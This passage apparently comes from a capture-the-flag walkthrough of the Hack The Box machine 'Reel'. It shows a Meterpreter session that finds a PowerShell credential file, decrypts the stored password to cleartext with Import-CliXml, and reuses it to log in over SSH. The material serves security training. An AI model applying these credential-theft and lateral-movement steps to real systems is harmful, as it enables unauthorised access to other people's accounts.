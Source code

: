 ```bash
meterpreter > ls C:\\Users\\nico\\Desktop
Listing: C:\Users\nico\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  1468  fil   2017-10-27 19:59:16 -0400  cred.xml
100666/rw-rw-rw-  282   fil   2017-10-27 18:42:45 -0400  desktop.ini
100444/r--r--r--  32    fil   2017-10-27 19:40:33 -0400  user.txt
100666/rw-rw-rw-  162   fil   2017-10-27 17:34:38 -0400  ~$iledDeliveryNotification.doc
```

The file contains a **PSCredential** object with an encrypted password for **Tom**.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

Thanks to PowerShell and the corresponding Metasploit module,. we can [easily](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx) retrieve the cleartext password.

```bash
meterpreter > load powershell 
Loading extension powershell...Success.         
meterpreter > powershell_shell 
PS > $credential = Import-CliXml -Path c:\users\nico\desktop\cred.xml
PS > $credential.GetNetworkCredential().Password
1ts-mag1c!!!
PS > 
```

We didn't get any access using WinRM/SMB with these credentials, however, the remote machine does have an **SSH** (TCP/22) server running. Let's see if **tom** can use the service.

```
$ ssh tom@10.129.147.8   
tom@10.129.147.8's password: 


Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved.    

tom@REEL C:\Users\tom> 
```
